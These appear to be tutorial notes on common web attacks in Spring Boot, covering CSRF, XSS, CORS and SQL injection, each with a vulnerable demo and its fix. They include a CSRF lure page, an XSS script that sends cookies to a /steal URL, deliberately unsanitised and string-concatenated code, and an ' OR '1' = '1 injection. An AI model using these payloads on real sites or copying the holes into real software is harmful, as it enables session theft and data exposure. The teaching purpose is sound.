




# Common Attacks with Demo (HLD #32 / Spring Boot Security "Attacks")

<!-- nav -->
⬅ [30 DNS](30_DNS_Notes.md) · [Index](00_HLD_Index.md) · [33 Dual Write Problem](33_Dual_Write_Problem_Notes.md) ➡
<!-- nav -->

Source: https://drive.google.com/file/d/1JINOQHR7j2B-R_9IaduT6wDn1MLpKfTX/view?usp=drive_link

Before starting Spring Security, understand the common web attacks: **CSRF, XSS, CORS (not an attack), SQL Injection** – what each is, a demo of the vulnerability, and how to protect against it.

---

## 1. CSRF – Cross-Site Request Forgery

- The user is **already authenticated** to a site.
- A CSRF attack **tricks the browser into making an unwanted request** to a site where the user is already authenticated.
- Applicable where **state/session is managed** (stateful, cookie/session-based authentication).

### Demo setup
Authentication is mandatory for all endpoints and the app uses **sessions (stateful)**.

`SecurityConfig.java`
```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http.sessionManagement(session ->
                session.sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED))
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .formLogin(Customizer.withDefaults());
        return http.build();
    }
}
```
`UserController.java` (CSRF demo)
```java
@RestController
public class UserController {
    @GetMapping("/transfer")
    public String transferMoney(@RequestParam String amount, @RequestParam String to) {
        return "Transferred $" + amount + " to " + to;
    }

    @GetMapping("/")
    public String hello() { return "hello"; }
}
```

<!-- isw:32-1 -->
**In simple words**

In the CSRF demo authentication is mandatory for all endpoints and the app uses **sessions (stateful).** There is a `GET /transfer` endpoint taking an `amount` and a `to` and a `GET /` endpoint returning "hello", under a `SecurityConfig` that requires authentication for every request and uses form login.
<!-- /isw:32-1 -->


### Attack steps

<!-- diagram:32-1 -->
**Diagram – XSS attack and cookie theft**


<!-- /diagram:32-1 -->


<!-- diagram:32-0 -->
**Diagram – CSRF attack**


<!-- /diagram:32-0 -->


1. Make the user **authenticated** on the server.
2. Send some **malicious link/page** to this authenticated user:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h2>Click Below to Claim Your Reward!</h2>
  <a href="http://localhost:8080/transfer?amount=1000&to=attacker">
    <button>Claim My Money</button>
  </a>
</body>
</html>
```
As soon as the user clicks **"Claim My Money"**, an **unwanted operation is executed** – and the **browser automatically appends the cookies/session** to the request.

<!-- isw:32-2 -->
**In simple words**

(1) Make the user **authenticated** on the server. (2) Send a **malicious link or page** to this authenticated user. The sample page has a button **"Claim My Money"** that links to `http://localhost:8080/transfer?amount=1000&to=attacker`. As soon as the user clicks it, **an unwanted operation is executed,** and the **browser automatically adds the cookies / session** to the request.
<!-- /isw:32-2 -->


### Protection
- Use a **CSRF token** – ensures the request **originates from the legitimate source**.
- Authenticated forms / the website append the CSRF token to the request; the server validates it against the token created at **HTTP session creation time**.

<!-- isw:32-0 -->
**In simple words**

The user is **already authenticated** to a site. A CSRF attack **tricks the browser into making an unwanted request** to a site where the user is already authenticated. It applies where **state / session is managed** (stateful, cookie or session-based authentication).
<!-- /isw:32-0 -->

<!-- isw:32-3 -->
**In simple words**

Use a **CSRF token,** which ensures the request **comes from the legitimate source.** The authenticated forms or website add the CSRF token to the request, and the server validates it against the token created at **HTTP session creation time.**
<!-- /isw:32-3 -->


---

## 2. XSS – Cross-Site Scripting

- Lets an attacker **inject a malicious script into a web page viewed by other users** (e.g. a comments section).
- Commonly used to **steal sessions** or **deface the website**.

### Demo setup
- `GET /xss` – loads all comments; returns `"xss"`; since it's a `@Controller` (not `@RestController`) it looks for **xss.html** and renders it.
- `POST /comment` – **does not sanitize user input**; stores the comment (e.g. in DB) and displays it on GET.
- If an attacker posts a malicious script, **every GET call runs that script for all users**.

`TestXSS.java`
```java
@Controller
public class TestXSS {
    private final List<String> comments = new ArrayList<>();

    @GetMapping("/xss")
    public String showComments(Model model) {
        model.addAttribute("comments", comments);
        return "xss"; // Loads xss.html
    }

    @PostMapping("/comment")
    public String addComment(@RequestParam String comment) {
        comments.add(comment);
        return "redirect:/xss";
    }
}
```
`src/main/resources/templates/xss.html`
```html
<!DOCTYPE html>
<html xmlns:th="http://www.w3.org/1999/xhtml">
<head><title>XSS Demo</title></head>
<body>
  <h2>Leave a Comment</h2>
  <form action="/comment" method="post">
    <input type="text" name="comment" required>
    <button type="submit">Submit</button>
  </form>

  <h3>Comments:</h3>
  <ul>
    <!-- Comments are directly injected without sanitization -->
    <li th:utext="${comment}" th:each="comment : ${comments}"></li>
  </ul>
</body>
</html>
```

<!-- isw:32-5 -->
**In simple words**

The demo: `GET /xss` loads all comments and returns `"xss"`; since it is a `@Controller` (not a `@RestController`) it looks for **xss.html** and renders it. `POST /comment` **does not sanitise the user input;** it stores the comment (for example in a DB) and shows it on the next GET. So if an attacker posts a malicious script, **every GET call runs that script for all users.**
<!-- /isw:32-5 -->


### Attack
- Insert `<script>alert("XSS Attack")</script>` and submit → the script is stored (e.g. in DB); when the comments are fetched and returned, **the browser executes it**.
- Worse – cookie theft:
```html
<script>
  fetch('http://localhost:8080/steal?cookie=' + document.cookie);
</script>
```
  Any user who loads the comments page has their **cookie sent to the attacker's URL**. That cookie holds the **JSESSIONID**, which the attacker can use to perform unwanted operations in the victim's active session.

<!-- isw:32-6 -->
**In simple words**

Posting `<script>alert("XSS Attack")</script>` stores the script, and when the comments are fetched and returned **the browser executes it.** Worse is **cookie theft:** a script such as `fetch('http://localhost:8080/steal?cookie=' + document.cookie)` sends the **cookie of every user who loads the comments page to the attacker's URL.** That cookie holds the **JSESSIONID,** which the attacker can use to do unwanted operations in the victim's active session.
<!-- /isw:32-6 -->


### Protection
- **Properly escape user input** (convert special characters, e.g. `<` → `&lt;`) – e.g. use `th:text` instead of `th:utext`.
- **Properly validate data** before rendering.

<!-- isw:32-4 -->
**In simple words**

XSS lets an attacker **inject a malicious script into a web page viewed by other users** (for example a comments section). It is commonly used to **steal sessions** or **deface the website.**
<!-- /isw:32-4 -->

<!-- isw:32-7 -->
**In simple words**

**Properly escape user input** (convert special characters, for example `<` → `&lt;`), for example by using `th:text` instead of `th:utext`, and **properly validate the data** before rendering it.
<!-- /isw:32-7 -->


---

## 3. CORS – Cross-Origin Resource Sharing

<!-- diagram:32-2 -->
**Diagram – CORS: same origin versus different origin**


<!-- /diagram:32-2 -->


- **Not an attack** – a **security feature** that restricts web pages from making requests to a **different origin** unless the server allows it.
- **Origin = protocol + domain + port.**

Examples of *different* origins:
| Client | Server | Why different |
|---|---|---|
| `https://localhost:8080` | `http://localhost:8080` | different **protocol** |
| `https://localhost:9090` | `https://localhost:8080` | different **port** |
| `https://sub.localhost:9090` | `https://localhost:9090` | different **domain/sub-domain** |

By default, a client calling a server on a different origin is **blocked by CORS**. The **server has to allow** the request (e.g. from `https://localhost:8080`) by setting **`Access-Control-Allow-Origin`** and other headers.

`SecurityConfig.java` (with CORS)
```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http.sessionManagement(session ->
                session.sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED))
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .cors(cors -> cors.configurationSource(request -> {
                CorsConfiguration config = new CorsConfiguration();
                config.setAllowedOrigins(List.of("https://sub.localhost:9090")); // Allow frontend
                config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
                config.setAllowedHeaders(List.of("Authorization", "Content-Type"));
                config.setAllowCredentials(true);
                return config;
            }))
            .formLogin(Customizer.withDefaults());
        return http.build();
    }
}
```

<!-- isw:32-8 -->
**In simple words**

CORS is **not an attack;** it is a **security feature** that restricts web pages from making requests to a **different origin** unless the server allows it. **An origin = protocol + domain + port.** Examples of *different* origins: `https://localhost:8080` vs `http://localhost:8080` (different **protocol**), `https://localhost:9090` vs `https://localhost:8080` (different **port**), `https://sub.localhost:9090` vs `https://localhost:9090` (different **domain / sub-domain**).

By default, a client calling a server on a different origin is **blocked by CORS.** The **server has to allow** the request (for example from a given frontend) by setting **`Access-Control-Allow-Origin`** and other headers. The `SecurityConfig` shown in the notes does this with `.cors(...)`, setting the allowed origins, methods, headers and credentials.
<!-- /isw:32-8 -->


---

## 4. SQL Injection

<!-- diagram:32-3 -->
**Diagram – SQL injection**


<!-- /diagram:32-3 -->


The attacker **manipulates the SQL query by inserting malicious input into a user field**.

`UserController.java` (find user)
```java
@GetMapping("/find")
public List<UserDetails> findUser(@RequestParam String name) {
    return userDetailsService.findByName(name);
}
```
`UserDetailsService.java` – **unsafe query** (string concatenation)
```java
public List<UserDetails> findByName(String name) {
    String sql = "SELECT * FROM user_details WHERE user_name = '" + name + "'";
    return entityManager.createNativeQuery(sql, UserDetails.class).getResultList();
}
```
**Demo:** calling `/find?name=' OR '1' = '1` makes the condition always true → **returns all rows** of `user_details` (the demo table had two users: `AA` phone 111 and `BB` phone 222, and both were returned).

### Protection – parameterized query
`UserDetailsService.java` – **safe query**
```java
public List<UserDetails> findByName(String name) {
    String sql = "SELECT * FROM user_details WHERE user_name = :name";
    return entityManager.createNativeQuery(sql, UserDetails.class)
                        .setParameter("name", name)
                        .getResultList();
}
```
With the same input `' OR '1' = '1`, the response is now an **empty list `[]`** – the input is treated as data, not SQL.

<!-- isw:32-9 -->
**In simple words**

SQL injection means the attacker **manipulates the SQL query by inserting malicious input into a user field.** The demo has a `/find?name=…` endpoint, and the **unsafe query** is built by string concatenation: `"SELECT * FROM user_details WHERE user_name = '" + name + "'"`. **Calling `/find?name=' OR '1' = '1` makes the condition always true,** so it **returns all rows** of `user_details` (the demo table had two users, `AA` phone 111 and `BB` phone 222, and both were returned).
<!-- /isw:32-9 -->

<!-- isw:32-10 -->
**In simple words**

Use a **parameterized query:** `WHERE user_name = :name` with `.setParameter("name", name)`. With the same input `' OR '1' = '1` the response is now an **empty list `[]`,** because the input is treated as **data, not SQL.**
<!-- /isw:32-10 -->


---

## Quick revision
| Attack | What happens | Defence |
|---|---|---|
| **CSRF** | Browser tricked into sending an authenticated request (cookies auto-attached) | **CSRF token** |
| **XSS** | Malicious script stored/rendered in other users' pages; can steal JSESSIONID | **Escape output**, validate input |
| **CORS** | Browser blocks cross-origin calls (origin = protocol + domain + port) – a feature, not an attack | Server whitelists origins/methods/headers (`Access-Control-Allow-Origin`) |
| **SQL Injection** | User input alters SQL query | **Parameterized queries** |

---

<!-- nav -->
⬅ [30 DNS](30_DNS_Notes.md) · [Index](00_HLD_Index.md) · [33 Dual Write Problem](33_Dual_Write_Problem_Notes.md) ➡
<!-- nav -->
